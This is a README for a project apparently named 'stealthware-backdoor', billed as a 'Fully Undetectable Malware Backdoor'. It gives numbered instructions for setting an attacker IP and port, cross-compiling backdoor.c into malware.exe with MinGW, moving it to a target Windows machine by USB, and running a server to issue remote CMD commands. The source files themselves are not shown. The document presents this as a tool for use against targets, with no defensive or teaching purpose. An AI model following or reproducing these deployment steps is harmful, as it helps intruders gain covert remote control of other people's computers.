

# stealthware-backdoor

**Description** : Fully Undetectable Malware Backdoor

**Requisite** : Make sure you have GCC installed in your System

**For Unix-like OS** :

1. Open server.c using a text editor [**$ nano server.c**]

2. Edit and add your own IP Address and random Port no. in the part labelled => **set host IP Address and port [EDIT HERE]**

3. Open backdoor.c using a text editor [**$ nano backdoor.c**]

4. Edit and add the same IP Address and Port no. from server.c in the part labelled => **set host IP Address and port [EDIT HERE]**

5. Compile server.c using GCC [**$ gcc server.c -o server**]

6. Install MinGW [**$ sudo apt-get install mingw-w64**]

7. Compile backdoor.c using MinGW to create .exe file [**$ i686-w64-mingw32-gcc -o malware.exe backdoor.c -lwsock32 -lwininet**]

8. Use USB to transfer **malware.exe** to target Windows machine (must be connected to same network domain)

9. Run compiled output of server.c in your own machine [**$ ./server**] 

10. Run **malware.exe** on target Windows machine like a normal .exe application (fully undetectable)

11. Use CMD commands to remotely access the target Windows machine from your own machine

12. Type => **q** to quit the server and exit.

**Backdoor Mechanism** :

 
